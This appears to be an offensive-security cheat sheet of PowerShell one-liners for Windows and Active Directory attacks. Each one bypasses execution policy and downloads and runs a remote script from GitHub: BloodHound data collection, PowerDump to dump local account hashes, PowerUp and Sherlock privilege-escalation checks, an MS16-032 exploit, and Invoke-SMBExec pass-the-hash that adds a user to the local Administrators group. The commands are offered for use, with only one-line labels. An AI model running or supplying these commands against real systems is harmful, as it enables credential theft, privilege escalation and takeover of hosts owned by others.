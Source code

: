 # PowerShell One-Liners

Bloodhound : Using ingestors to collect the data and then send it to BloodHound.

```powershell
powershell.exe -exec Bypass -C "IEX(New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1');Invoke-BloodHound"
```

PowerDump : Dump all local accounts.

```powershell
powershell.exe -exec Bypass -C "IEX(New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-PowerDump.ps1');Invoke-PowerDump"
```

PowerUp : Check for privilege escalation.

```powershell
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1’);Invoke-AllChecks"
```

Sherlock : An old tool to find vulnerabilities on the host. Can be still interesting.

```powershell
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1’); Find-AllVulns"
```

To exploit one of those vulnerabilities via Sherlock, for example MS16-032 :

```powershell
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1’); Invoke-MS16-032"
```

Invoke-SMBExec : Remote command execution by using a hash :
```powershell
powershell.exe -exec Bypass -C "IEX(New-Object Net.Webclient).DownloadString(‘https://github.com/Kevin-Robertson/Invoke-TheHash/raw/master/Invoke-SMBExec.ps1’);"
Invoke-SMBExec -hash HASH -Target HOSTNAME -Domain DOMAIN -Username USERNAME -Command “net localgroup Administrateurs USERNAME /ADD” -verbose
```
